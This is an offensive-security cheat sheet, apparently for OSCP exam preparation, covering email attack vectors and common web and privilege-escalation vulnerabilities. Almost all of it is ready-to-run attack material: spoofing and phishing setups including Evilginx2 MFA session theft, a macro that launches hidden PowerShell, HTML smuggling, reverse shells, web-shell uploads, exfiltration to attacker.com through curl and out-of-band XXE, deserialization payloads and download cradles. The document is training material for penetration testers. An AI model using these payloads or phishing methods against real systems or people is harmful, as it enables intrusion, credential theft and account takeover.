


## TL;DR

**Email is one of the most common initial access vectors** in penetration testing. This guide covers the full email attack surface — from SMTP reconnaissance and spoofing to malicious attachments and phishing — alongside the most frequently tested vulnerabilities in OSCP, complete with command examples.

---

## Part 1: Email Attack Vectors

### Attack Flow Overview



---

### 1. SMTP / Mail Server Reconnaissance

Understanding the target's mail infrastructure is always the first step.

```bash
# Query MX records
dig MX target.com
nslookup -type=MX target.com

# Connect to SMTP server directly
telnet mail.target.com 25
nc -nv mail.target.com 25

# Banner grab
nmap -sV -p 25,465,587 target.com

# SMTP user enumeration (VRFY / EXPN / RCPT TO)
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t mail.target.com
smtp-user-enum -M RCPT -U users.txt -D target.com -t mail.target.com

# Metasploit enumeration
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS mail.target.com
set USER_FILE /usr/share/wordlists/metasploit/unix_users.txt
run
```

#### Common SMTP Software and Known CVEs

| SMTP Software | Notable Vulnerabilities | Search Term |
|---|---|---|
| Sendmail | Buffer overflow in older versions | `sendmail exploit site:exploit-db.com` |
| Exim | CVE-2019-10149 (RCE), CVE-2020-28017 | `exim RCE exploit` |
| Postfix | Open relay misconfiguration | `postfix open relay check` |
| hMailServer | Weak auth / SQL injection | `hmailserver pentest` |
| MailEnable | Path traversal / auth bypass | `mailenable exploit` |

---

### 2. Open Relay Abuse

An open relay forwards mail to external domains without authentication.

```bash
# Manual open relay test
telnet mail.target.com 25
EHLO attacker.com
MAIL FROM: <fake@attacker.com>
RCPT TO: <victim@external.com>   # If accepted → open relay confirmed
DATA
Subject: Test

test body
.
QUIT

# Nmap script check
nmap --script smtp-open-relay -p 25 mail.target.com

# swaks test send
swaks --to victim@target.com --from spoofed@legit.com --server mail.target.com --port 25
```

---

### 3. Email Spoofing (SPF / DKIM / DMARC Analysis)

```bash
# Check SPF record
dig TXT target.com | grep spf

# Check DMARC record
dig TXT _dmarc.target.com

# Check DKIM selectors (common names)
dig TXT default._domainkey.target.com
dig TXT google._domainkey.target.com
dig TXT selector1._domainkey.target.com

# Spoofing decision matrix:
# No SPF record      → High spoofing success chance
# DMARC: p=none     → Email delivered (no enforcement)
# DMARC: p=quarantine → May land in spam
# DMARC: p=reject   → Likely blocked
```

```bash
# Send spoofed email via swaks
swaks \
  --to victim@target.com \
  --from ceo@target.com \
  --header "Subject: Urgent: Please reset your password" \
  --body "Click here to update: http://attacker.com/reset" \
  --server mail.target.com

# Python smtplib approach
python3 -c "
import smtplib
from email.mime.text import MIMEText
msg = MIMEText('Please verify your account.')
msg['Subject'] = 'Account Verification Required'
msg['From'] = 'admin@target.com'
msg['To'] = 'victim@target.com'
with smtplib.SMTP('mail.target.com', 25) as s:
    s.sendmail('admin@target.com', ['victim@target.com'], msg.as_string())
"
```

---

### 4. Phishing and Credential Harvesting

#### 4.1 Phishing Framework (Gophish)

```bash
# Download and run Gophish
wget https://github.com/gophish/gophish/releases/latest/download/gophish-v0.12.1-linux-64bit.zip
unzip gophish-*.zip
chmod +x gophish
./gophish
# → Access admin panel at https://127.0.0.1:3333 (admin/gophish)

# Social Engineering Toolkit (SET)
sudo setoolkit
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 2) Site Cloner → enter target site URL
```

#### 4.2 Evilginx2 — Reverse Proxy Phishing (MFA Bypass)

```bash
# Setup Evilginx2
git clone https://github.com/kgretzky/evilginx2
cd evilginx2 && make
sudo ./bin/evilginx -p phishlets/

# Configuration (targeting Microsoft 365)
config domain phish.attacker.com
config ipv4 1.2.3.4
phishlets hostname o365 login.phish.attacker.com
phishlets enable o365
lures create o365
lures get-url 0
# → Send phishing URL to victim
# → Session cookie captured after login (MFA-authenticated session)
```

---

### 5. Malicious Attachment Techniques

#### 5.1 Office Macros (VBA)

```vba
' VBA macro — auto-executes on document open
Sub AutoOpen()     ' Word; use Auto_Open() for Excel
    Dim cmd As String
    cmd = "powershell -nop -w hidden -e BASE64_ENCODED_PAYLOAD"
    Shell "cmd.exe /c " & cmd, vbHide
End Sub
```

```bash
# Generate reverse shell payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f powershell -o shell.ps1

# Base64-encode for PowerShell
cat shell.ps1 | iconv -t UTF-16LE | base64 -w 0

# Embed with macro_pack
pip install macro_pack
echo "powershell -e BASE64PAYLOAD" | macro_pack -t CMD -o -G evil.docm
```

#### 5.2 LNK File Payload

```powershell
# Create a LNK file via PowerShell
$WScriptShell = New-Object -ComObject WScript.Shell
$Shortcut = $WScriptShell.CreateShortcut("C:\Users\Public\resume.lnk")
$Shortcut.TargetPath = "C:\Windows\System32\cmd.exe"
$Shortcut.Arguments = "/c powershell -nop -w hidden -e BASE64PAYLOAD"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,70"
$Shortcut.Save()
```

#### 5.3 HTML Smuggling (Bypass Email Filters)

HTML Smuggling embeds a Base64-encoded file inside an HTML email body, which the browser decodes and downloads locally — bypassing most mail gateways that inspect file attachments.

```html
<html>
<body>
<script>
  const data = "BASE64_ENCODED_EXE_OR_ISO";
  const bytes = Uint8Array.from(atob(data), c => c.charCodeAt(0));
  const blob = new Blob([bytes], {type: 'application/octet-stream'});
  const url = URL.createObjectURL(blob);

  const a = document.createElement('a');
  a.href = url;
  a.download = 'invoice.iso';
  document.body.appendChild(a);
  a.click();
</script>
<p>Loading document...</p>
</body>
</html>
```

#### 5.4 ISO/IMG to Bypass Mark-of-the-Web (MOTW)

Files downloaded from email get a MOTW flag that triggers SmartScreen. Files extracted from mounted ISO images do **not** inherit MOTW, bypassing this control.

```bash
# Package payload into ISO
apt install genisoimage
genisoimage -o evil.iso -J -R /path/to/payload_directory/
```

---

### 6. SMTP Brute Force

```bash
# Hydra — SMTP brute force
hydra -l admin@target.com -P /usr/share/wordlists/rockyou.txt smtp://mail.target.com

# SMTP over TLS (ports 465/587)
hydra -l admin@target.com -P passwords.txt -s 587 -S smtp://mail.target.com

# Medusa
medusa -u admin@target.com -P /usr/share/wordlists/rockyou.txt -h mail.target.com -M smtp

# Nmap script
nmap -p 25 --script smtp-brute --script-args userdb=users.txt,passdb=passwords.txt mail.target.com
```

---

### 7. Exploiting Known Mail Server CVEs

#### Exim CVE-2019-10149 (Remote Code Execution)

```bash
# Confirm Exim version via banner
telnet mail.target.com 25
# 220 mail.target.com ESMTP Exim 4.87 ...

# Search exploit-db
searchsploit exim 4.87
searchsploit -m 46974   # CVE-2019-10149 PoC

# Metasploit module
use exploit/unix/smtp/exim4_dovecot_exec
set RHOSTS mail.target.com
set LHOST 10.10.14.1
run
```

---

## Part 2: OSCP Common Vulnerabilities Guide

### Vulnerability Frequency Table

| Category | OSCP Frequency | Difficulty |
|---|---|---|
| Buffer Overflow (Windows x86) | ★★★★★ | High |
| SQL Injection | ★★★★★ | Medium |
| LFI / RFI | ★★★★★ | Low–Medium |
| Command Injection | ★★★★☆ | Low |
| File Upload | ★★★★☆ | Low–Medium |
| SUID/sudo Privesc (Linux) | ★★★★★ | Medium |
| Service/Registry Privesc (Windows) | ★★★★☆ | Medium |
| XXE | ★★★☆☆ | Medium |
| SSRF | ★★★☆☆ | Medium |
| Insecure Deserialization | ★★★☆☆ | High |

---

### 1. Buffer Overflow (Windows x86)

The classic OSCP skill. You must write a custom exploit from scratch.

```bash
# Step 1: Determine crash offset
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
# Send pattern as payload → note EIP value on crash

# Step 2: Calculate offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 4f4f4f4f -l 3000
# [*] Exact match at offset 2003

# Step 3: Confirm EIP control
# "A"*2003 + "BBBB" (EIP) + "CCCC"*200

# Step 4: Identify bad characters
# Send \x00–\xff, inspect memory for breaks

# Step 5: Find JMP ESP (no ASLR environment)
# In Immunity Debugger + mona.py:
# !mona jmp -r esp -cpb "\x00\x0a"

# Step 6: Generate shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 \
  -b "\x00\x0a" -f python -v shellcode

# Step 7: Assemble exploit
# "A"*offset + pack("<I", jmp_esp_addr) + "\x90"*16 + shellcode
```

---

### 2. SQL Injection

```bash
# Manual error-based
' OR '1'='1
' OR 1=1--
' OR 1=1#

# UNION-based (find column count first)
' ORDER BY 1--
' ORDER BY 2--
' UNION SELECT NULL--
' UNION SELECT NULL,NULL,NULL--

# Extract data (MySQL)
' UNION SELECT 1,database(),3--
' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema=database()--
' UNION SELECT 1,group_concat(username,0x3a,password),3 FROM users--

# Read files (requires FILE privilege)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

# Write web shell
' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'--
```

```bash
# sqlmap automation
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D targetdb -T users --dump
sqlmap -u "http://target.com/page.php?id=1" --os-shell
sqlmap -u "http://target.com/page.php?id=1" --file-read /etc/passwd
sqlmap -r request.txt --level=5 --risk=3   # From Burp-captured request

# POST parameter
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=test" -p user
```

---

### 3. LFI / RFI (File Inclusion)

```bash
# Basic LFI payloads
http://target.com/page.php?file=../../../../etc/passwd
http://target.com/page.php?file=../../../../windows/system32/drivers/etc/hosts

# PHP wrapper — read source code
http://target.com/page.php?file=php://filter/convert.base64-encode/resource=index.php

# Log poisoning → RCE
# Step 1: Inject PHP into User-Agent
curl -A "<?php system(\$_GET['cmd']); ?>" http://target.com/

# Step 2: Include the log via LFI
http://target.com/page.php?file=../../../../var/log/apache2/access.log&cmd=id

# Common log paths
# /var/log/apache2/access.log
# /var/log/nginx/access.log
# /var/log/auth.log     (SSH login attempts)
# /proc/self/environ    (HTTP_USER_AGENT)

# RFI (requires allow_url_include=On)
http://target.com/page.php?file=http://attacker.com/shell.php

# Null byte (PHP ≤ 5.3)
http://target.com/page.php?file=../../../../etc/passwd%00

# Encoding bypass
%2e%2e%2f → ../
%252e%252e%252f → ../ (double-encoded)
```

```bash
# php_filter_chain_generator — LFI to RCE without log file
git clone https://github.com/synacktiv/php_filter_chain_generator
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
# Paste generated filter chain into LFI parameter
```

---

### 4. Command Injection

```bash
# Basic payloads
; id
& id
| id
`id`
$(id)

# Out-of-band detection
; curl http://attacker.com/$(id | base64)
; nslookup $(id).attacker.com

# Reverse shell
; bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
; nc -e /bin/sh 10.10.14.1 4444
; python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("10.10.14.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

# Filter bypass — space alternatives
${IFS}         → space
{cat,/etc/passwd}
$'\x20'        → space

# String splitting to bypass keyword filters
'i''d' → id
i\d   → id
```

---

### 5. Unrestricted File Upload

```bash
# PHP web shells
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# Extension filter bypass
shell.php.jpg     # double extension
shell.pHp         # case variation
shell.php%00.jpg  # null byte
shell.php5 / shell.phtml / shell.phar   # alternate PHP exts
shell.asp / shell.aspx / shell.ashx     # ASP/ASPX
shell.jsp / shell.jspx                  # JSP

# Content-Type bypass via Burp
# Change: Content-Type: application/php → image/jpeg

# Magic bytes — prepend GIF header
echo -e 'GIF89a\n<?php system($_GET["cmd"]); ?>' > shell.gif.php

# Embed in image metadata
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg shell.php.jpg
```

---

### 6. XXE (XML External Entity)

```xml
<!-- Basic XXE — local file read -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>

<!-- Blind XXE via out-of-band (OOB) -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % remote SYSTEM "http://attacker.com/xxe.dtd">
  %remote;
]>
<root><data>&send;</data></root>

<!-- attacker.com/xxe.dtd content -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrap "<!ENTITY send SYSTEM 'http://attacker.com/?data=%file;'>">
%wrap;

<!-- SSRF pivot via XXE -->
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
```

---

### 7. SSRF (Server-Side Request Forgery)

```bash
# Common vulnerable parameter names
# url=, path=, dest=, redirect=, uri=, proxy=, next=, site=, callback=

# Internal service discovery
http://target.com/fetch?url=http://127.0.0.1/
http://target.com/fetch?url=http://192.168.1.1/

# Cloud metadata exfiltration
http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/  # AWS
http://target.com/fetch?url=http://metadata.google.internal/           # GCP

# Protocol abuse
http://target.com/fetch?url=file:///etc/passwd          # local file read
http://target.com/fetch?url=dict://127.0.0.1:11211      # Memcached
http://target.com/fetch?url=gopher://127.0.0.1:25/      # SMTP relay

# IP filter bypass techniques
http://127.1/                     # shortened localhost
http://2130706433/                # decimal IP (127.0.0.1)
http://0x7f000001/                # hex IP
http://attacker.com@127.0.0.1/   # @ bypass
```

---

### 8. Insecure Deserialization

```bash
# Java deserialization (ysoserial)
# Affected: Jenkins, WebLogic, JBoss, Tomcat, Apache Commons Collections

java -jar ysoserial.jar CommonsCollections1 "cmd /c ping attacker.com" > payload.ser
java -jar ysoserial.jar CommonsCollections6 "bash -c {bash,-i,>&,/dev/tcp/10.10.14.1/4444,0>&1}" | base64

# Identify Java serialized objects:
# Magic bytes: AC ED 00 05 (binary) or rO0A... (Base64)

# PHP deserialization
# Look for: unserialize($_COOKIE['session'])
# Craft object with __wakeup() or __destruct() gadgets

# Python pickle deserialization
python3 -c "
import pickle, os, base64
class Exploit(object):
    def __reduce__(self):
        return (os.system, ('id',))
print(base64.b64encode(pickle.dumps(Exploit())))
"
```

---

### 9. Linux Privilege Escalation

```bash
# Automated enumeration
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# SUID binary search
find / -perm -4000 -type f 2>/dev/null
# → Check GTFOBins (https://gtfobins.github.io/) for exploitation

# Sudo permissions
sudo -l
# Example: (root) NOPASSWD: /usr/bin/python3
# → sudo python3 -c 'import os;os.execv("/bin/sh",["sh"])'

# Writable /etc/passwd
openssl passwd -1 -salt salt 'password'
echo 'hacker:GENERATED_HASH:0:0::/root:/bin/bash' >> /etc/passwd

# Cron job inspection
cat /etc/crontab /etc/cron.d/* /var/spool/cron/crontabs/* 2>/dev/null

# PATH hijacking (when scripts call commands without full path)
export PATH=/tmp:$PATH
echo '/bin/bash' > /tmp/service
chmod +x /tmp/service

# NFS no_root_squash
cat /etc/exports
# → /share *(rw,no_root_squash) → mount from attacker, place SUID binary
```

---

### 10. Windows Privilege Escalation

```powershell
# Automated enumeration
iex (New-Object Net.WebClient).DownloadString('http://10.10.14.1/winpeas.ps1')
.\winPEAS.exe

# AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# → Both 0x1 → create malicious MSI for SYSTEM
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi

# Unquoted service path
wmic service get name,pathname,startmode | findstr /i /v "C:\Windows" | findstr /i /v """"

# Writable service binary
icacls "C:\Program Files\VulnApp\service.exe"

# DLL hijacking
# Use Process Monitor to find NAME NOT FOUND DLL loads
# Place malicious DLL in a writable path that appears earlier in search order
```

---

## Summary Cheatsheet: Email → Shell → Root



---

## OSCP Quick Tips

| Tip | Details |
|---|---|
| **Enumerate thoroughly** | nmap → gobuster/feroxbuster → nikto → manual review |
| **Always check versions** | Use `searchsploit` and exploit-db for service CVEs |
| **Take notes** | Record every command + result in Obsidian / CherryTree |
| **Practice BoF daily** | Use brainpan, vulnserver, dostackbufferoverflowgood |
| **Time management** | Start with easy machines; move on if stuck >30 min |
| **Screenshot everything** | Capture each attack step for the report |

---

## References

- [GTFOBins](https://gtfobins.github.io/) — SUID/sudo exploitation reference
- [HackTricks](https://book.hacktricks.xyz/) — Web attacks and privesc
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) — Payload collection
- [ExploitDB](https://www.exploit-db.com/) — Public CVE PoCs
- [OSCP Cheatsheet by 0xsyr0](https://github.com/0xsyr0/OSCP) — Comprehensive OSCP reference
